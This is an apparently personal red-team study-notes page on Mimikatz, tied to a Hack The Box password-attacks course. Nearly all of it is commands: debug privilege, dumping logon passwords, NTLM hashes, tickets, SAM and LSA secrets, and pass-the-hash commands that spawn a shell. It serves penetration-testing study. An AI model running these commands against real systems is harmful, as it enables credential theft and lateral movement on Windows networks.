 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.4k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump:: # show the list of modules
mimikatz# lsadump::sam
mimikatz# lsadump::lsa
```
</div><div>

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:xxx.yyy /run:cmd.exe
```
</div></div>